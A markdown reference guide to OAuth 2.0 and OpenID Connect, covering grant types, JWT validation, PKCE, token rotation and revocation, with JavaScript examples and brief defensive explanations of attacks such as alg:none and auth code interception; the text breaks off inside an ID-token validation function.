







# OAuth 2.0 + OpenID Connect — Complete Reference Guide

> **Scope:** Pure protocol reference — OAuth 2.0, all grant types, OIDC, JWT, production security patterns, and token lifecycle management. Vendor tooling (Apigee, PingFederate) is a separate track.

---

## 🗺️ Learning Roadmap

```
Phase 1 — Foundations          Phase 2 — Grant Types          Phase 3 — OIDC
┌─────────────────────┐        ┌─────────────────────┐        ┌─────────────────────┐
│ M1: Why OAuth exists│   →    │ M3: Client Creds    │   →    │ M6: OpenID Connect  │
│ M2: JWT deep dive   │        │ M4: Auth Code + PKCE│        │     (identity layer)│
└─────────────────────┘        │ M5: Other grants    │        └─────────────────────┘
                                └─────────────────────┘
                                          ↓
                                Phase 4 — Production
                                ┌─────────────────────┐
                                │ M7: Security +      │
                                │     Hardening       │
                                └─────────────────────┘
```

| Symbol | Meaning |
|:---:|---|
| 💡 | Core concept |
| 🔐 | Security critical |
| 🏭 | Production pattern |
| ⚠️ | Common mistake |
| ✅ | Checklist item |
| 📖 | Real-world example |

---

## Table of Contents

1. [Module 1 — The problem OAuth 2.0 solves](#module-1)
2. [Module 2 — JWT anatomy, signing, and validation](#module-2)
3. [Module 3 — Client Credentials grant](#module-3)
4. [Module 4 — Authorization Code grant + PKCE](#module-4)
5. [Module 5 — Other grant types](#module-5)
6. [Module 6 — OpenID Connect (OIDC)](#module-6)
7. [Module 7 — Production patterns and security hardening](#module-7)
8. [Module 8 — OAuth Architecture Patterns](#module-8)
9. [Quick Reference Cheat Sheet](#quick-reference)

---

## Module 1 — The problem OAuth 2.0 solves {#module-1}

### 💡 The credential-sharing problem

Before OAuth, granting an app access to your data meant handing it your password. That app stored your credentials permanently, had unrestricted access to everything, and you had no way to revoke just *that* app's access without changing your password everywhere.

> **📖 Real-world example:** Early Twitter apps (2008–2010) asked for your Twitter username and password to post on your behalf. If one of those apps was breached, attackers had your password — not just access to Twitter. OAuth was specifically designed to eliminate this pattern.

```
Before OAuth                          After OAuth
──────────────────────────────────    ──────────────────────────────────
App stores your password         →    App never sees your password
Full, unrestricted access        →    Scoped, limited access only
Access permanent until pw change →    Revoke any app anytime
One breach = password exposed    →    Breach = short-lived token only
```

### 💡 The four actors in every OAuth transaction



| Actor | Role | Real-world examples |
|---|---|---|
| **Resource Owner** | The user who owns the data and grants consent | End user, employee |
| **Client** | The application requesting access | Web app, mobile app, microservice |
| **Authorization Server** | Issues tokens after verifying identity and consent | PingFederate, Okta, Auth0, Google |
| **Resource Server** | The API that holds protected data, accepts tokens | Your backend API |

### 💡 OAuth is authorisation, NOT authentication

> **⚠️ The single most important distinction in this entire guide:**
> - **OAuth 2.0** answers: *"What is this application allowed to do?"*
> - **OAuth 2.0 does NOT** tell you who the user is
> - **OpenID Connect** (Module 6) adds identity on top of OAuth

### 💡 The token mental model

```
Access Token                         Refresh Token
──────────────────────────────────   ──────────────────────────────────
Short-lived (5 min – 1 hour)         Long-lived (days to months)
Sent with every API request          Sent ONLY to the Auth Server
Proves authorisation to the API      Used to silently get new access tokens
If leaked: expires soon anyway       If leaked: must be revoked immediately
Like: a hotel key card               Like: the contract to re-issue a key card
```

---

## Module 2 — JWT anatomy, signing, and validation {#module-2}

### 💡 What is a JWT?

A JSON Web Token (JWT) is self-contained — the API can validate it without calling the Auth Server on every request, because the token carries a cryptographic signature. The server fetches the Auth Server's public key once, caches it, and validates all tokens locally.

> **🔐 Critical:** JWTs are Base64url-encoded — **not encrypted**. Anyone who intercepts a JWT can decode and read the payload. The signature only proves it wasn't tampered with. **Never put secrets, passwords, or sensitive PII in a JWT payload.**

### 💡 JWT structure — three segments joined by dots

```
┌─────────────────────────────────────────────────────────────────────┐
│                                                                     │
│   eyJhbGciOiJSUzI1NiIsImtpZCI6ImtleS0xIn0                         │
│   ────────────────────────────────────────                         │
│   HEADER (Base64url) — algorithm + key ID                          │
│                                                                     │
│   .eyJpc3MiOiJodHRwczovL2F1dGguZXhhbXBsZS5jb20iLCJzdWIiOiJ1...    │
│   ──────────────────────────────────────────────────────────────   │
│   PAYLOAD (Base64url) — the claims                                 │
│                                                                     │
│   .SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c                    │
│   ─────────────────────────────────────────────                    │
│   SIGNATURE — cryptographic proof of integrity                     │
│                                                                     │
└─────────────────────────────────────────────────────────────────────┘
```

### 💡 Header (decoded)

```json
{
  "alg": "RS256",    ← signing algorithm (tells receiver which crypto operation to use)
  "kid": "key-1",   ← key ID (which public key in JWKS to use for verification)
  "typ": "JWT"       ← token type
}
```

### 💡 Payload — standard claims explained

```json
{
  "iss": "https://auth.example.com",    ← Issuer: who created this token
  "sub": "user_123",                    ← Subject: who the token is about
  "aud": "https://api.example.com",     ← Audience: who the token is FOR
  "exp": 1713456789,                    ← Expiry: Unix timestamp — MUST validate
  "iat": 1713453189,                    ← Issued At: when it was created
  "jti": "a8f3c2d1-...",               ← JWT ID: unique ID (replay prevention)
  "scope": "api.read profile",          ← Scope: what permissions this grants
  "email": "john@example.com",          ← Custom claim (added by Auth Server)
  "roles": ["admin", "user"]            ← Custom claim (added by Auth Server)
}
```

| Claim | Who validates it | What happens if you skip it |
|---|---|---|
| `iss` | Resource Server | Tokens from dev accepted in prod (iss confusion attack) |
| `sub` | Application | Wrong user identity used |
| `aud` | Resource Server | Token for API-A accepted at API-B |
| `exp` | Resource Server | Expired tokens accepted forever |
| `scope` | Resource Server | Insufficient permissions not caught |

### 💡 Signing algorithms

| Algorithm | Type | Use | Verdict |
|---|---|---|---|
| **RS256** | Asymmetric (RSA) | Auth Server → API | ✅ Recommended |
| **ES256** | Asymmetric (ECDSA) | Auth Server → API | ✅ Preferred (smaller keys) |
| **HS256** | Symmetric (HMAC) | Internal systems only | ⚠️ Avoid for APIs |
| **none** | No signature | — | 🔐 **Never allow — catastrophic** |

> **🔐 The `alg:none` attack:** Setting `"alg":"none"` in the JWT header tricks naive libraries into skipping signature verification entirely. A signed token is rewritten with `alg:none`, signature removed — and the library accepts it as valid. **Always explicitly set your allowed algorithm list.**

### 💡 RS256 validation flow



### 💡 JWT vs opaque tokens

| | JWT | Opaque token |
|---|---|---|
| Validation | Local (no network call, ~0ms) | Introspection call to Auth Server (+50–100ms) |
| Revocation | ❌ Cannot revoke before expiry | ✅ Revocable instantly |
| Visibility | Payload readable by anyone | Opaque — only Auth Server knows contents |
| Best for | High-traffic APIs, distributed systems | Strict revocation, financial transactions |

> **🏭 The logout problem with JWTs:** A user who "logs out" still has a valid JWT until it expires. Solutions: short expiry (5–15 min) + refresh tokens, a token blocklist in Redis, or the Token Revocation endpoint (below).

### 💡 Token Introspection endpoint (RFC 7662)

When using **opaque tokens** (or when you need real-time revocation checking), call the Auth Server's introspection endpoint to validate a token on every request.

```
Request:
  POST https://auth.example.com/introspect
  Authorization: Basic base64(client_id:client_secret)
  Content-Type: application/x-www-form-urlencoded
  Body: token=<opaque_or_jwt_token>

Response (active token):
  {
    "active": true,
    "sub": "user_123",
    "client_id": "my-app",
    "scope": "api.read",
    "exp": 1713456789,
    "iss": "https://auth.example.com"
  }

Response (invalid / expired / revoked token):
  { "active": false }
```

> **🏭 When to use introspection vs JWKS validation:**
> - High-traffic API → JWKS (local validation, ~0ms overhead)
> - Requires instant revocation (financial, healthcare) → Introspection
> - Opaque tokens → Must use introspection (JWT validation not possible)
> - Some banks use both: JWKS for standard calls, introspection for high-value transactions

### 💡 Token Revocation endpoint (RFC 7009)

Explicitly invalidate a token — access token on logout, refresh token on compromise.

```bash
# Revoking a refresh token on user logout
POST https://auth.example.com/oauth/revoke
Authorization: Basic base64(client_id:client_secret)
Content-Type: application/x-www-form-urlencoded

token=<refresh_token>&token_type_hint=refresh_token

# Response: 200 OK (even if token was already invalid — prevents enumeration)
```

> **🔐 Revoke the refresh token first.** If an attacker has both the access token and refresh token, revoking the refresh token prevents them from getting new access tokens once the current one expires. The access token will expire naturally within its short window.

---

## Module 3 — Client Credentials grant {#module-3}

### 💡 When to use it

The application **is** the Resource Owner. There is no user. The app authenticates using its own registered identity.

```
✅ Use for:                         ❌ Never use for:
────────────────────────────────    ────────────────────────────────
Microservice-to-microservice        When a real user is involved
Scheduled cron jobs                 Per-user data access
CI/CD pipeline → deployment API     Actions on behalf of a user
Background data sync                Anything requiring refresh token
IoT device telemetry upload         (refresh tokens are not issued)
```

### 💡 Complete flow



### 💡 Token payload (Client Credentials)

```json
{
  "iss": "https://auth.example.com",
  "sub": "order-service",          ← The SERVICE is the subject, not a user
  "aud": "https://payment-api.example.com",
  "scope": "payment.initiate payment.read",
  "exp": 1713456789,
  "client_id": "order-service"
}
```

### 📖 Real-world: payment microservices platform

```
  Order Service ──────────────────────────────────┐
  (client: order-svc)                             │ POST /token
                                                  ▼
                                         🔐 Auth Server
                                                  │ access_token
                                                  │ scope: payment.initiate
  ┌───────────────────────────────────────────────┘
  │
  ▼
  Payment Service   ←── Bearer token ───   Order Service
  Checks: iss ✓  aud ✓  scope ✓
  │
  └── Calls Fraud Service with separate token (scope: fraud.check)
```

### 🏭 Token caching — the critical production pattern

```javascript
let cachedToken = null;
let tokenExpiry  = 0;

async function getAccessToken() {
  const now           = Math.floor(Date.now() / 1000);
  const bufferSeconds = 300; // refresh 5 min before expiry

  // ✅ Reuse if still valid
  if (cachedToken && now < tokenExpiry - bufferSeconds) {
    return cachedToken;
  }

  // 🔄 Request a new token
  const res = await fetch("https://auth.example.com/token", {
    method: "POST",
    headers: {
      "Authorization": "Basic " + Buffer.from(`${CLIENT_ID}:${CLIENT_SECRET}`).toString("base64"),
      "Content-Type": "application/x-www-form-urlencoded",
    },
    body: new URLSearchParams({
      grant_type: "client_credentials",
      scope: "api.read",
    }),
  });

  const data     = await res.json();
  cachedToken    = data.access_token;
  tokenExpiry    = now + data.expires_in;
  return cachedToken;
}
```

### 🔐 Client secret management

| Environment | Storage method |
|---|---|
| Development | `.env` file (never committed to git) |
| Production | HashiCorp Vault, AWS Secrets Manager, Azure Key Vault |
| **Never** | Source code, config files in git, log files, hardcoded strings |

> **🏭 Zero-downtime secret rotation:** (1) register second secret on Auth Server → (2) deploy new secret to all instances → (3) verify all instances using new secret → (4) remove old secret from Auth Server.

---

## Module 4 — Authorization Code grant + PKCE {#module-4}

### 💡 The core insight: front-channel vs back-channel

The browser (front channel) is untrusted — anything in a URL appears in browser history, referrer headers, and server logs. So we **never** put the access token in a URL redirect.

```
Front channel (browser URL):           Back channel (server-to-server):
──────────────────────────────────     ──────────────────────────────────
auth_code (short-lived, 60s)           access_token
state (CSRF token)                     refresh_token
                                        id_token
Exposed — but auth code alone is        Never touches the browser
useless without the PKCE verifier
```

### 💡 Complete flow with PKCE



### 🔐 PKCE — the auth code interception attack

```
Without PKCE:
  1. Malicious app intercepts auth_code from redirect URI
  2. Submits code to token endpoint with its own client_id
  3. Auth Server cannot tell code was stolen → issues token to attacker

With PKCE:
  1. Legitimate app generates code_verifier (never sent over front-channel)
  2. Sends SHA256(verifier) as code_challenge in the authorization request
  3. Attacker intercepts auth_code but has no verifier
  4. Auth Server: SHA256(attacker_guess) ≠ challenge → rejects exchange
```

### 💡 PKCE implementation (browser JavaScript)

```javascript
async function generatePKCE() {
  // Generate 64 random bytes → URL-safe Base64
  const array    = new Uint8Array(64);
  crypto.getRandomValues(array);
  const verifier = btoa(String.fromCharCode(...array))
    .replace(/\+/g, "-").replace(/\//g, "_").replace(/=/g, "");

  // SHA-256 hash of the verifier → the challenge sent to Auth Server
  const digest    = await crypto.subtle.digest("SHA-256", new TextEncoder().encode(verifier));
  const challenge = btoa(String.fromCharCode(...new Uint8Array(digest)))
    .replace(/\+/g, "-").replace(/\//g, "_").replace(/=/g, "");

  return { verifier, challenge };
}

// --- Before redirect ---
const { verifier, challenge } = await generatePKCE();
const state = crypto.randomUUID();

sessionStorage.setItem("pkce_verifier", verifier);  // Store verifier
sessionStorage.setItem("oauth_state", state);        // Store state for CSRF check

// --- In callback handler ---
const params = new URLSearchParams(window.location.search);

if (params.get("state") !== sessionStorage.getItem("oauth_state")) {
  throw new Error("State mismatch — possible CSRF attack");  // 🔐 CSRF check
}
```

### 🔐 The `state` parameter and `nonce`

| Parameter | Protects against | How to use |
|---|---|---|
| `state` | Login CSRF — attacker tricks browser into completing attacker's flow | Generate random UUID, store in sessionStorage, verify on callback |
| `nonce` | ID token replay attacks (OIDC) | Generate random value, include in auth request, verify it appears in returned ID token |

### 📖 Real-world: enterprise HR portal

```json
{
  "iss": "https://identity.company.com",
  "sub": "employee_78234",
  "aud": "https://hr-api.company.com",
  "scope": "openid profile hr.read hr.self",
  "email": "jane.smith@company.com",
  "roles": ["employee", "manager"],
  "department": "Engineering",
  "employee_id": "EMP78234"
}
```
The HR API enforces: `hr.self` scope → own data only | `manager` role → approve team leave requests

---

## Module 5 — Other grant types {#module-5}

### 💡 Device Code grant (RFC 8628)

For devices with **no browser or limited input**: smart TVs, CLI tools, IoT sensors.



> **📖 Real-world uses:** YouTube sign-in on smart TV, AWS CLI `--sso`, GitHub CLI `auth login`, Spotify on smart speakers, Apple TV login.

### 💡 Refresh Token — silent renewal lifecycle

```javascript
class TokenManager {
  async getValidToken() {
    const now           = Math.floor(Date.now() / 1000);
    const bufferSeconds = 60;

    // ✅ Still valid — reuse
    if (this.accessToken && now < this.expiresAt - bufferSeconds) {
      return this.accessToken;
    }

    // 🔄 Silent refresh
    const res = await fetch("https://auth.example.com/token", {
      method: "POST",
      body: new URLSearchParams({
        grant_type:    "refresh_token",
        refresh_token: this.refreshToken,
        client_id:     CLIENT_ID,
      }),
    });

    if (!res.ok) {
      // Refresh token expired or revoked — must re-authenticate
      this.redirectToLogin();
      return;
    }

    const tokens = await res.json();
    this.accessToken  = tokens.access_token;
    this.expiresAt    = now + tokens.expires_in;

    // 🔐 Refresh token rotation: always store the NEW refresh token
    if (tokens.refresh_token) {
      this.refreshToken = tokens.refresh_token; // old one is now invalid
    }
    return this.accessToken;
  }
}
```

> **🔐 Refresh token rotation:** Auth Server issues a new refresh token on every use and invalidates the old one. If a stolen refresh token is used, the legitimate holder's next attempt will fail — alerting the system to a possible breach. **Enable refresh token rotation in all production systems.**

### ⚠️ Deprecated grant types — know them to avoid them

```
┌─────────────────────────────────────────────────────────────────┐
│  IMPLICIT GRANT — Removed in OAuth 2.1                          │
│  ─────────────────────────────────────                          │
│  Was: access_token returned directly in URL fragment            │
│  Problem: visible in browser history, referrer headers, logs    │
│  Replace with: Authorization Code + PKCE                        │
├─────────────────────────────────────────────────────────────────┤
│  RESOURCE OWNER PASSWORD (ROPC) — Removed in OAuth 2.1         │
│  ────────────────────────────────────────────────────           │
│  Was: app collects username + password, sends to token endpoint │
│  Problem: re-introduces the exact problem OAuth was built to    │
│           eliminate — app handles your credentials              │
│  Replace with: Authorization Code + PKCE                        │
└─────────────────────────────────────────────────────────────────┘
```

---

## Module 6 — OpenID Connect (OIDC) {#module-6}

### 💡 What OIDC adds on top of OAuth 2.0

```
OAuth 2.0 alone asks:   "What can this app do?"
OAuth 2.0 + OIDC asks:  "Who is the user?" AND "What can this app do?"
```

OIDC adds five things on top of OAuth 2.0:

| Addition | What it provides |
|---|---|
| **ID Token** | A JWT specifically about the authenticated user |
| **UserInfo Endpoint** | An API to fetch additional user claims |
| **Standard scopes** | `openid`, `profile`, `email`, `address`, `phone` |
| **Discovery** | `.well-known/openid-configuration` auto-configures clients |
| **Session management** | Logout and session state notifications |

### 💡 The three tokens — what each one is for

```
┌──────────────────────────────────────────────────────────────────────────┐
│                                                                          │
│   ACCESS TOKEN         ──── Send to every API call                      │
│   aud: the API URL     ──── Short-lived (1 hour)                        │
│   contains: scope      ──── Used by Resource Server                     │
│                                                                          │
│   ID TOKEN             ──── Use in your app ONLY                        │
│   aud: your client_id  ──── Proves the user authenticated               │
│   contains: email,     ──── ⚠️ NEVER send to an API                    │
│   name, picture...                                                       │
│                                                                          │
│   REFRESH TOKEN        ──── Store securely server-side                  │
│   (no aud)             ──── Send ONLY to the Auth Server                │
│                         ──── Long-lived (days/months)                   │
│                                                                          │
└──────────────────────────────────────────────────────────────────────────┘
```

> **⚠️ The most common OIDC mistake:** sending the ID token to an API. The ID token's `aud` is your `client_id` — a correctly configured API will reject it with 401.

### 💡 ID token structure

```json
{
  "iss": "https://auth.example.com",
  "sub": "user_123",              ← Stable unique user ID — store this in your DB
  "aud": "my-client-app",         ← YOUR client_id, not the API
  "exp": 1713456789,
  "iat": 1713453189,
  "nonce": "n-0S6_WzA2Mj",        ← Verify this matches what you sent (replay prevention)
  "at_hash": "77QmUPtjPfzWtF2A",  ← Cryptographic binding to access_token
  "email": "jane@example.com",
  "email_verified": true,         ← See security note below
  "name": "Jane Smith",
  "given_name": "Jane"
}
```

> **🔐 `email_verified` matters for security:** An unverified email means someone claimed `admin@yourcompany.com` without proving they own it. If your app identifies users by email without checking `email_verified: true`, an attacker could register `cto@yourcompany.com` with a social IdP (without owning that email) and impersonate your CTO. **Always check `email_verified` before trusting the email claim.**

### 💡 OIDC scopes → claims

```
scope=openid              → sub  (required minimum)
scope=openid profile      → name, given_name, family_name, picture, locale, updated_at
scope=openid email        → email, email_verified
scope=openid address      → address { street, locality, region, postal_code, country }
scope=openid phone        → phone_number, phone_number_verified
```

> **⚠️ Never use email as your unique user identifier.** Use `sub`. Email can change. Two different IdPs may issue the same email for different accounts. The stable composite key to store in your database is `iss + "|" + sub`.

### 💡 Discovery endpoint

```javascript
// Every OIDC provider publishes a document at /.well-known/openid-configuration
// Fetch once at startup — no hardcoded endpoint URLs needed

const discovery = await fetch(
  "https://auth.example.com/.well-known/openid-configuration"
).then(r => r.json());

// All endpoints discovered automatically:
discovery.authorization_endpoint  // → /authorize
discovery.token_endpoint          // → /token
discovery.userinfo_endpoint       // → /userinfo
discovery.jwks_uri                // → /pf/JWKS
discovery.revocation_endpoint     // → /revoke
discovery.introspection_endpoint  // → /introspect
```

### 💡 OIDC Hybrid flow

The **Hybrid flow** combines elements of the Implicit and Authorization Code flows. The SP receives the ID token (and optionally an access token) immediately in the front channel, while also getting an auth code for back-channel token exchange.

```
response_type=code             → Authorization Code flow (recommended)
response_type=code id_token    → Hybrid flow
response_type=code token       → Hybrid flow (with access token in front channel)
```

**When you see Hybrid flow in the wild:**
- Legacy enterprise OIDC integrations that needed the ID token before the back-channel exchange
- Certain OpenID Connect Relying Parties that require an immediate identity assertion
- Most modern implementations use plain `code` — if you're building new, use Authorization Code only

> **🔐 Hybrid flow security:** Because the ID token is returned in the front channel (URL fragment), it must be validated carefully. The `c_hash` claim binds the ID token to the auth code, and `at_hash` binds it to the access token — always validate these if present.

### 💡 OIDC Authorization Code flow with ID token validation

```javascript
// After token exchange — validate the ID token before trusting it
function validateIdToken(idToken, expectedNonce) {
  const payload = parseJWT(idToken); // library does full sig verification

  if (payload.iss !== EXPECTED_ISSUER)   throw new Error("Invalid issuer");
  if (payload.aud !== CLIENT_ID)         throw new Error("Wrong audience — this is an API token!");
  if (payload.exp < Date.now() / 1000)   throw new Error("Token expired");
